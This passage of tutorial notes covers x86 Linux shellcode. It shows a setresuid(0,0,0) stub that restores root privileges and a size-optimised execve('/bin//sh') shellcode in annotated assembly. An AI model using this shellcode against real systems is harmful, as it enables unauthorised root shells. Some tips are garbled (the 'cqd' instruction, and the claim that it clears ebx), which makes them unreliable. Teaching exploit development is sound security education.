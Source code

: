   - EDX = 'BBBB' (in a real world case. this is a pointer to NULL) \
Or ```execvue('/bin/sh', [AAAA], [BBBB])```

*Note* Remove ```XAAAABBBB``` from the real shellcode

#### Privesc
Because some functions dont need to be run with root privileges, even in ```suid``` situations, sometimes programs drop privileges before executing potentially dangerous functions. In doing so , they use the ```seteuid()``` call, we are going to use the opposit call, ```setresuid()``` to uno reverse them. 
<details><summary>SETEGID MAN</summary></details>
<details><summary>SETRESUID MAN</summary></details>

In doing so we must simply add a function that calls ```setresuid()``` with no arguments before calling our shell code, like this 
```
; setresuid(uid_t ruid, uid_t euid, uid_t suid);
  xor eax, eax      ; Zero out eax.
  xor ebx, ebx      ; Zero out ebx.
  xor ecx, ecx      ; Zero out ecx.
  xor edx, edx      ; Zero out edx.
  mov al,  0xa4     ; 164 (0xa4) for syscall #164
  int 0x80          ; setresuid(0, 0, 0)  Restore all root privs.

```


#### Shrinking Code
Because memory constraints are real we must do what we can to shrink our shell code (even though we just talked about adding padding to remove null bytes) to ensure our code can fit in these small windows that we want to execute them in. To do so, we're going to get rid of our functions and use the stack and our registers a bit more efficiently to save some bytes. 
```
BITS 32

; execve(const char *filename, char *const argv [], char *const envp[])
  xor eax, eax      ; Zero out eax.
  push eax          ; Push some nulls for string termination.
  push 0x68732f2f   ; Push "//sh" to the stack.
  push 0x6e69622f   ; Push "/bin" to the stack.
  mov ebx, esp      ; Put the address of "/bin//sh" into ebx, via esp.
  push eax          ; Push 32-bit null terminator to stack.
  mov edx, esp      ; This is an empty array for envp.
  push ebx          ; Push string addr to stack above null terminator.
  mov ecx, esp      ; This is the argv array with string ptr.
  mov al, 11        ; Syscall #11.
  int 0x80          ; Do it.
  ```
  This code ```push```es the bytes to the stack and ```mov```es them into the ```ebx``` register ```esp``` as its relative address for reference *Note: please pay attention to the endianess before pushing your strings to the stack as well as the stack's FILO nature*

  Another tip is to zero out ```ebx``` using **```cqd```**, qhich creates a quadword using the ```eax``` and ```edx``` registers, if ```eax``` is 0, it will flow into ```edx```. 
